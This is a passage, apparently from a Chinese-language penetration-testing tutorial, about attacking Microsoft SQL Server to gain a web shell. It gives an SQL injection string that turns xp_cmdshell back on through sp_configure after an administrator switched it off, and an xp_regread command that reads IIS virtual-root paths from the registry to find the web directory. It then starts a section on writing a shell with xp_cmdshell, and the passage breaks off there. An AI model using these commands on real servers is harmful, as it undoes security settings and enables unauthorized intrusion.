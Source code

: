 ![mysql](./img/2.1.2.png)


当然你可能遇到xp_cmdshell不能调用 如果报错

>SQL Server 阻止了对组件 'xp_cmdshell' 的 过程'sys.xp_cmdshell' 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp_configure 启用。

可以用如下命令恢复

```
;EXEC sp_configure 'show advanced options',1;//允许修改高级参数
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;  //打开xp_cmdshell扩展
RECONFIGURE;--

```

当然还不行可能xplog70.dll需要恢复，看具体情况来解决吧 ，这些问题百度一堆一堆的。

其他的可以利用的储存过程还有sp_oamethod什么的不是本文讨论的重点了，因为2008的xp_cmdshell 权限不是2005那样的system 所以不考虑加账号

`xp_regread`

通过读注册表 这个在win2000才有用 就不多说了

```
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots','/'

```

### 0x02 xp_cmdshell拿shell

虽然是备份拿shell顺便提下，我们找到目录了权限能调用xp_cmdshell来写那样就很轻松了也就不需要备份了。
